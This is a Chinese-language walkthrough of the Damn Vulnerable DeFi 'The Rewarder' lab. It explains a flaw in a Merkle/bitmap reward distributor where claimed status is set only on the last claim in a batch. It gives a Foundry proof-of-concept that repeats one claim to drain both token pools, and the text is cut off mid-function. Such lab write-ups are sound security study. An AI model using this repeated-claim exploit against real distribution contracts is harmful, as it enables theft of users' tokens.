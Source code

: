 解題:
- 基於 Merkle proofs 和 bitmaps 代幣分配合約
- REF: [Bitmaps & Merkle Proofs](https://x.com/DegenShaker/status/1825835855140868370) | [Bitmap结构在ENSToken里的应用](https://mirror.xyz/franx.eth/0PTXWm1ynYxeF11S_xlXzmQqeICHQeI4tz3Uwz9aWuk)
- 合約中可以發現在 claimRewards 中, 更新用戶是不是有領過reward是透過 _setClaimed().
- 因為 claimRewards支援array, 可以一個transaction執行多次claim. 並在最後一個claim才更新用戶claimreward紀錄.
- player 的地址, index為188
```
            // for the last claim
            if (i == inputClaims.length - 1) {
                if (!_setClaimed(token, amount, wordPosition, bitsSet)) revert AlreadyClaimed();
            }
```
[POC](./damn-vulnerable-defi/test/the-rewarder/TheRewarder.t.sol) : 
```
   function test_theRewarder() public checkSolvedByPlayer {
        uint PLAYER_DVT_CLAIM_AMOUNT = 11524763827831882;
        uint PLAYER_WETH_CLAIM_AMOUNT = 1171088749244340;

        bytes32[] memory dvtLeaves = _loadRewards(
            "/test/the-rewarder/dvt-distribution.json"
        );
        bytes32[] memory wethLeaves = _loadRewards(
            "/test/the-rewarder/weth-distribution.json"
        );

        uint dvtTxCount = TOTAL_DVT_DISTRIBUTION_AMOUNT /
            PLAYER_DVT_CLAIM_AMOUNT;
        uint wethTxCount = TOTAL_WETH_DISTRIBUTION_AMOUNT /
            PLAYER_WETH_CLAIM_AMOUNT;
        uint totalTxCount = dvtTxCount + wethTxCount;

        IERC20[] memory tokensToClaim = new IERC20[](2);
        tokensToClaim[0] = IERC20(address(dvt));
        tokensToClaim[1] = IERC20(address(weth));

        // Create Alice's claims
        console.log(totalTxCount);
        Claim[] memory claims = new Claim[](totalTxCount);

        for (uint i = 0; i < totalTxCount; i++) {
            if (i < dvtTxCount) {
                claims[i] = Claim({
                    batchNumber: 0, // claim corresponds to first DVT batch
                    amount: PLAYER_DVT_CLAIM_AMOUNT,
                    tokenIndex: 0, // claim corresponds to first token in `tokensToClaim` array
                    proof: merkle.getProof(dvtLeaves, 188) //player at index 188
                });
            } else {
                claims[i] = Claim({
                    batchNumber: 0, // claim corresponds to first DVT batch
                    amount: PLAYER_WETH_CLAIM_AMOUNT,
                    tokenIndex: 1, // claim corresponds to first token in `tokensToClaim` array
                    proof: merkle.getProof(wethLeaves, 188)  //player at index 188
                });
            }
        }
        //multiple claims
        distributor.claimRewards({
            inputClaims: claims,
            inputTokens: tokensToClaim
        });

        dvt.transfer(recovery, dvt.balanceOf(player));
```